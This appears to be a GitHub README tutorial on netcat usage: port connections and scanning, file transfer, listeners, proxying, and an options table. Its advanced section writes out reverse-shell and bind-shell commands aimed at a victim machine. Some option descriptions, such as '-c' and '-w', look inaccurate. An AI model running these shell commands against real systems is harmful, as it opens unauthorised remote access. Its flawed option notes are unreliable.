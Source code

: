# Netcat (nc) - The Swiss Army Knife of Networking

## What is Netcat?

Netcat (`nc`) is a powerful networking tool used for various network-related tasks such as port scanning, banner grabbing, file transfers, debugging, and establishing reverse or bind shells. It supports both **TCP** and **UDP** protocols, making it a versatile utility for penetration testers, network administrators, and developers.

---

## Installation

Make sure Netcat is installed on your system. To check:

```bash
nc -h
```

If not installed, use the following commands to install it:

- **Debian/Ubuntu**:  
  ```bash
  sudo apt-get install netcat
  ```
- **CentOS/Fedora**:  
  ```bash
  sudo yum install nc
  ```
- **macOS**:  
  ```bash
  brew install netcat
  ```

---

## Basic Usage

### 1. **Connecting to a TCP Port**

```bash
nc <target-ip> <port>
```
Example:
```bash
nc 192.168.1.100 80
```

### 2. **Sending Data to a Port**

```bash
echo "Hello" | nc <target-ip> <port>
```
Example:
```bash
echo "Hello" | nc 192.168.1.100 8080
```

### 3. **Port Scanning**

```bash
nc -zv <target-ip> <start-port>-<end-port>
```
Example:
```bash
nc -zv 192.168.1.100 1-1000
```

---

## Intermediate Usage

### 4. **Listening on a Port (Simple Server)**

```bash
nc -l <port>
```
Example:
```bash
nc -l 12345
```

### 5. **File Transfer**

#### Sending a file:
```bash
nc <target-ip> <port> < file.txt
```
Example:
```bash
nc 192.168.1.100 12345 < file.txt
```

#### Receiving a file:
```bash
nc -l <port> > file.txt
```
Example:
```bash
nc -l 12345 > file.txt
```

---

## Advanced Usage

### 6. **Creating a Reverse Shell**

#### On the attacker's machine (listening for shell):
```bash
nc -lvp 4444
```

#### On the victim’s machine (initiating the reverse shell):
```bash
/bin/bash -i | nc <attacker-ip> 4444
```

### 7. **Creating a Bind Shell**

#### On the target machine (setting up the shell):
```bash
nc -lvp 4444 -e /bin/bash
```

#### On the attacker’s machine (connecting to the shell):
```bash
nc <target-ip> 4444
```

---

## Other Useful Commands

### 8. **UDP Mode**

```bash
nc -u <target-ip> <port>
```
Example:
```bash
nc -u 192.168.1.100 12345
```

### 9. **Netcat as a Web Server**

```bash
while true; do echo -e 'HTTP/1.1 200 OK\n\nHello, World' | nc -l -p 80; done
```

### 10. **Proxying Traffic**

```bash
mkfifo /tmp/fifo
nc -l 12345 < /tmp/fifo | nc <target-ip> <target-port> > /tmp/fifo
```

---

## Netcat Options Table

| **Option**   | **Description**                                                |
|--------------|----------------------------------------------------------------|
| `-l`         | Listen mode, used to set up a listener on a specified port.    |
| `-p <port>`  | Specify the port for the listener or connection.               |
| `-v`         | Enable verbose mode to display detailed information.           |
| `-z`         | Zero-I/O mode, used for port scanning without sending data.    |
| `-u`         | Use UDP protocol (default is TCP).                             |
| `-e <cmd>`   | Execute the given command after connection (useful for shells).|
| `-w <secs>`  | Set timeout for idle connections (useful for keeping sessions alive). |
| `-n`         | No DNS resolution (use raw IP addresses only).                 |
| `-c <cmd>`   | Execute a command locally after connection closes.             |

---

## Netcat Cheat Sheet

> **You can access a detailed **[Netcat Cheat Sheet](https://pentest.sans.org/security-resources/posters/netcat-cheat-sheet/240/download)** by SANS, which provides more advanced usage tips for both Linux and Windows.**

> **One more CheatSheet With Best GUI **[Netcat Cheat Sheet](https://drive.google.com/file/d/1o0LZvm8lXNJQDShkcLxj_hFjwUDe4e81/view?usp=sharing)** Download it and enjoy!** 

---

## Conclusion

Netcat is a versatile and essential tool for network testing and penetration testing. Whether you are scanning ports, transferring files, or establishing a reverse shell, Netcat can handle the task with ease. Be sure to explore the full range of its capabilities responsibly.